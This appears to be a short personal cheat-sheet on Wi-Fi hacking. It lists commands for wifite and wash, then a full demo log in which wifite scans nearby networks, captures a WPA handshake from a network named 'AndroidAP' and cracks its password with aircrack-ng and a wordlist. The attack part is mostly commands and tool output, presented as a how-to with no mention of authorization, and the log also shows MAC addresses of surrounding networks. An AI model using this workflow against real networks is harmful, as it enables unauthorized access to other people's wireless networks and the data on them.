 ### reconnecting network manger
sudo systemctl restart NetworkManager



### wifi hacking using wifite 
 make sure you reinsert adapter
 sudo wifite
 start from here 
 
 wash tool 
 wash is used for checking whether the wifi router is locked or not 
 sudo wash
  
### Demo
sudo wifite      
   .               .    
 .´  ·  .     .  ·  `.  wifite2 2.7.0
 :  :  :  (¯)  :  :  :  a wireless auditor by derv82
   `.  ·  ` /¯\ ´  ·  .´  maintained by kimocoder
   `     /¯¯¯\     ´    https://github.com/kimocoder/wifite2


 [!] Conflicting processes: NetworkManager (PID 669), wpa_supplicant (PID 898)
 [!] If you have problems: kill -9 PID or re-run wifite with --kill                                                           

 [+] Using wlan0 already in monitor mode                                                                                      

   NUM                      ESSID   CH  ENCR    PWR    WPS  CLIENT                                                            
   ---  -------------------------  ---  -----   ----   ---  ------
     1              TP-Link_BBEC     3  WPA-P   39db   yes    2                                                               
     2                 AndroidAP     6  WPA-P   37db    no    1                                                               
     3       (6A:9A:87:4B:37:89)     3  WPA-P   15db   yes                                                                    
 [+] Select target(s) (1-3) separated by commas, dashes or all: 2                                                             

 [+] (1/1) Starting attacks against 48:13:7E:69:16:D2 (AndroidAP)
 [+] AndroidAP (37db) PMKID CAPTURE: Failed to capture PMKID   
                                                                                                                              
 [+] AndroidAP (71db) WPA Handshake capture: Discovered new client: F6:98:A6:E9:F6:B2                                         
 [+] AndroidAP (73db) WPA Handshake capture: Captured handshake                                                               
 [+] saving copy of handshake to hs/handshake_AndroidAP_48-13-7E-69-16-D2_2025-03-13T13-41-13.cap saved

 [+] analysis of captured handshake file:
 [+]   tshark: .cap file contains a valid handshake for (48:13:7e:69:16:d2)
 [+] aircrack: .cap file contains a valid handshake for (48:13:7E:69:16:D2)

 [+] Cracking WPA Handshake: Running aircrack-ng with wordlist-probable.txt wordlist
 [+] Cracking WPA Handshake: 0.01% ETA: 21m55s @ 154.9kps (current key: 1234567890)                                           
 [+] Cracked WPA Handshake PSK: 1234567890

 [+]   Access Point Name: AndroidAP
 [+]  Access Point BSSID: 48:13:7E:69:16:D2
 [+]          Encryption: WPA
 [+]      Handshake File: hs/handshake_AndroidAP_48-13-7E-69-16-D2_2025-03-13T13-41-13.cap
 [+]      PSK (password): 1234567890
 [+] saved crack result to cracked.json (1 total)
 [+] Finished attacking 1 target(s), exiting
